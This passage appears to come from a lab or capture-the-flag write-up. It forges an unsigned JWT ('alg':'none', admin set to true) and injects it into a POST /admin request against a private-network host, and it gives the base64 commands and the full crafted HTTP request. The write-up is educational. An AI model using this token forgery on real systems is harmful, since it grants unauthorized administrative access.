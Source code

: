 Visiting it just shows us this:

<figure><img src="../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

Running scans against both of these directories show nothing. I checked the requests in Burp, and there are some allowed methods:

<figure><img src="../../../.gitbook/assets/image (1639).png" alt=""><figcaption></figcaption></figure>

We can send POST and OPTIONS requests to this, but we first need to modify our cookie. The JWT cookie has 3 parts, the encryption type, the actual data and the signature. Since we know there's a problem with the JWT, we can abuse this by replacing the encryption type and the payload:

```
$ echo -n '{"typ":"JWT","alg":"none"}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
$ echo -n '{"id": "0","guest": "false","admin": true}' | base64
eyJpZCI6ICIwIiwiZ3Vlc3QiOiAiZmFsc2UiLCJhZG1pbiI6IHRydWV9
```

For the signature, since we did not specify an algorithm, we can leave it blank. The full token is thus:

{% code overflow="wrap" %}
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6ICIwIiwiZ3Vlc3QiOiAiZmFsc2UiLCJhZG1pbiI6IHRydWV9.
```
{% endcode %}

We can then send an empty login request to generate a POST request in Burpsuite, and then modify it to include our JWT token:

```http
POST /admin HTTP/1.1
Host: 192.168.201.141:20202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://192.168.201.141:20202
Connection: close
Referer: http://192.168.201.141:20202/
Cookie: session=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZLI2-g.jAwlyKLCDrUP8eKqrY5OqHx15j0; JWT=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6ICIwIiwiZ3Vlc3QiOiAiZmFsc2UiLCJhZG1pbiI6IHRydWV9.
Upgrade-Insecure-Requests: 1
```